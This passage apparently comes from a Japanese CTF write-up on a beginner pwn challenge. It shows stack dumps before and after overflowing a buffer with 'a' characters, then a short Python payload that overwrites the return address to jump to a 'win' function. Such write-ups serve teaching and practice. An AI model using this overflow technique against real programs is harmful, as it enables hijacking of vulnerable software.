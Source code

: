 ```
Input:
```
親切にスタックの状況を表示してくれます．何かしらの入力を与えると入力した内容がスタックに格納されてもう一度表示されます．
試しにaaaをいくつか入力します．すると，
```
   [ Address ]           [ Stack ]
                   +--------------------+
0x00007ffcfd4212b0 | 0x6161616161616161 | <-- buf
                   +--------------------+
0x00007ffcfd4212b8 | 0x0000000a61616161 |
                   +--------------------+
0x00007ffcfd4212c0 | 0x0000000000000000 |
                   +--------------------+
0x00007ffcfd4212c8 | 0x00007f9ada20d170 |
                   +--------------------+
0x00007ffcfd4212d0 | 0x00007ffcfd4212e0 | <-- saved rbp (vuln)
                   +--------------------+
0x00007ffcfd4212d8 | 0x000000000040084e | <-- return address (vuln)
                   +--------------------+
0x00007ffcfd4212e0 | 0x0000000000400ad0 | <-- saved rbp (main)
                   +--------------------+
0x00007ffcfd4212e8 | 0x00007f9ad9c14b97 | <-- return address (main)
                   +--------------------+
0x00007ffcfd4212f0 | 0x0000000000000001 |
                   +--------------------+
0x00007ffcfd4212f8 | 0x00007ffcfd4213c8 |
                   +--------------------+

Bye!
```
こんな感じにスタックの状況が変化します．もっと多くのaを入力すると，
```
   [ Address ]           [ Stack ]
                   +--------------------+
0x00007ffea45ceb70 | 0x6161616161616161 | <-- buf
                   +--------------------+
0x00007ffea45ceb78 | 0x6161616161616161 |
                   +--------------------+
0x00007ffea45ceb80 | 0x6161616161616161 |
                   +--------------------+
0x00007ffea45ceb88 | 0x6161616161616161 |
                   +--------------------+
0x00007ffea45ceb90 | 0x6161616161616161 | <-- saved rbp (vuln)
                   +--------------------+
0x00007ffea45ceb98 | 0x6161616161616161 | <-- return address (vuln)
                   +--------------------+
0x00007ffea45ceba0 | 0x6161616161616161 | <-- saved rbp (main)
                   +--------------------+
0x00007ffea45ceba8 | 0x00007f0a61616161 | <-- return address (main)
                   +--------------------+
0x00007ffea45cebb0 | 0x0000000000000001 |
                   +--------------------+
0x00007ffea45cebb8 | 0x00007ffea45cec88 |
                   +--------------------+

/home/pwn/redir.sh: line 2: 23776 Segmentation fault      ./chall
```
スタックがオーバーフローしてセグフォで落ちました．
というわけでスタックバッファオーバーフローで`vuln`のリターンアドレスを`win`のアドレスに書き換えます．
ペイロードはこのように組み立てました．
```python
payload = b'a' * 32
payload += (0x7fff6858b810).to_bytes(8, 'little') # '\x10\xb8\x58\x68\xff\x7f\x00\x00'
payload += (0x400861).to_bytes(8, 'little') # '\x61\x08\x40\x00' + '\x00' * 4
```
